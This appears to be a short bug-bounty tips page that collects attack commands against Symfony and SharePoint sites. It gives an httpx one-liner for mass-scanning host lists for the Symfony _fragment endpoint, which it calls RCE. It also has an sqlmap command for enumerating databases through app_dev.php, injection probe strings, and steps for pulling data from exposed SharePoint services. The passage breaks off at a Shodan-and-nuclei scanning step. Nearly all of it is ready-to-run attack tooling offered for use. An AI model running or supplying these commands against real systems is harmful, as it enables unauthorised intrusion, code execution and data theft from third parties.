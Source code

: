 Thanks to @ibra0963 for collecting the tips.
 

https://twitter.com/Alra3ees/status/1419058927422017540

The easiest RCE i have found on zerocpter so far:-

```

httpx -l hosts.txt -path "/_fragment?_path=_controller=phpcredits&flag=-1" -threads 100 -random-agent -x GET -tech-detect -status-code -follow-redirects -title -mc 200 -match-regex "PHP Credits"

``
Save this symfony endpoint in your wordlist and run httpx:-

```

/app_dev.php/1'%20%22 -> SQLi

sqlmap -u "https://domain/app_dev.php/1*" --level 4 --risk 2 --dbms="MySQL" --random-agent --force-ssl --hostname --dbs

/app_dev.php -> php info
/_fragment?_path=_controller=phpcredits&flag=-1 -> RCE



httpx -l hosts.txt -path "/_fragment?_path=_controller=phpcredits&flag=-1" -threads 100 -random-agent -x GET -tech-detect -status-code -follow-redirects -title -mc 200 -match-regex "PHP Credits"

Tip: error -> try to put the -path value in " "
[https://www.ambionics.io/blog/symfony-secret-fragment]

```
Little gift my friend On Symfony try these end:

```

/app_dev.php/1'%20"

SQL Injection 90% 

Should reserve an error

```

Easy 4 digits:

```

-Find SharePoint Exposed Web Services[?wsdl] File 

-Search for [DataServices.asmx] 

-Try to use the requests to get data . 

-Scan for SQL Injection 

```


Search for company IPs on shodan and scan them via nuclei:-

```
